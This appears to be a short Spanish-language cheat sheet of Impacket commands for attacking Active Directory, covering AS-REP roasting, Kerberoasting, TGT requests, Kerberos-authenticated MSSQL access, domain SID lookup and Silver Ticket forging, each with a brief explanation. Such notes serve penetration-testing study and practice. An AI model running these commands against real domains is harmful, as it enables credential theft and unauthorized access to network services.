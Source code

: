 ----

- ### impacket-GetNPUsers {dc}/ -no-pass -usersfile {user_dictionari}

##### Esto lo que hace es intentar realizar un AS-REP Roast Attack, es decir probar si cada uno de los usuarios tiene seteada la configuración **UF_DONT_REQ_PREAUTH** para solicitar un TGT. 

----

- ### impacket-GetUserSPNs {dc}/{user}:{passwd} -dc-ip {target_ip} -dc-host {dc} 

##### Eso lo que hace es solicitar un #Kerberoasting_Attack solicitando usuarios que tengan habilitado el servicio de Kerberos y que tengan permisos específicoas para acceder a servicios de red. Así de manera posterior se podria capturar el hash NTLM.  
##### Basicamente listar los Service Principal Name. 

---

- ### impacket-GetTGT {dc}/{user}:{passwd} 

##### Esto lo que hace es solicitar un TGT (Ticket Granting Ticket).

---

- ### impacket-mssqlclient {dc} -k

##### Esto lo que hace es conectarse a el servicio expuesto de microsoft sql con un tgt previamente exportado con  `export KRB5CCNAME={usertgt.ccahe}`.

----

- ### impacket-getPac -targetUser {user} {dc}/{user}:{passwd}

##### Esto permite obtener información del dc y del usuario, como el Domain SID.

----

- ### impacket-ticketer -domain-sid {domain_sid} -spn {spn} -nthash {hash_NTLM} -domain {dc} {user}

##### Efectuar un Silver Ticket Attack para el usuario solicitado (Ganar acceso al servicio)